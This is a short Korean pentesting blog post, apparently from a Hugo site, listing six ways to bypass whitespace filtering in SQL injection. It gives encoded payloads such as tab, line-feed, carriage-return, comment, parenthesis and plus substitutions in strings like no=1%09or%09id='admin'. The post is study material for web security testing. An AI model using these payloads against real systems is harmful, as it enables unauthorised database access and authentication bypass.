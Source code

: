 ```yaml
---
title: "SQL Injection 우회기법"
date: 2023-07-19
# weight: 1
# aliases: ["/Pentest"]
tags: ["Web Security", "Penetration Testing", "SQL Injection"]
author: "CrackerNote"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: true
ShowReadingTime: false
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: false
ShowRssButtonInSectionTermList: true
UseHugoToc: false
searchHidden: true
---
```


## 1️⃣ SQL Injection 우회기법



### 📜****SQL Injection 공격시 공백 문자 필터링시 우회 방법****



1. Tab : %09

 \- no=1%09or%09id='admin'

 

2. Line Feed (\n): %0a

 \- no=1%0aor%0aid='admin'

 

3. Carrage Return(\r) : %0d

 \- no=1%0dor%0did='admin'

 

4. 주석 : /**/

 \- no=1/**/or/**/id='admin'

 

5. 괄호 : ()

 \- no=(1)or(id='admin')

 

6. 더하기 : +

 \- no=1+or+id='admin'
